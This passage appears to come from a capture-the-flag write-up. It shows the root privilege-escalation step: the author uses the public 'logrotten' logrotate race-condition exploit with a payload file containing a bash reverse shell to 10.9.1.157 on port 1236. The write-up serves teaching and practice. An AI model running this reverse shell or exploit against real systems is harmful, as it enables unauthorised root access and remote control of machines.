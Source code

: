 {{text("I followed the article by downloading the exploit mentioned, compiling it and downloading it onto the victim's machine.")}}

{{link("https://github.com/whotwagner/logrotten", "../../../static/writeups/images/github.jpg", "Winning a race condition in logrotate to elevate privileges")}}

{{text("Then I created a payload file with a reverse shell.")}}

{{console("echo 'bash -i >& /dev/tcp/10.9.1.157/1236 0>&1' > payload")}}

{{text("And finally run the exploit.")}}

{{console("./lorgotten -p payload /home/plot_admin/.logs_backup/moodle_access")}}

{{text("After a while we should get a connection and be the root user.")}}

{{script()}}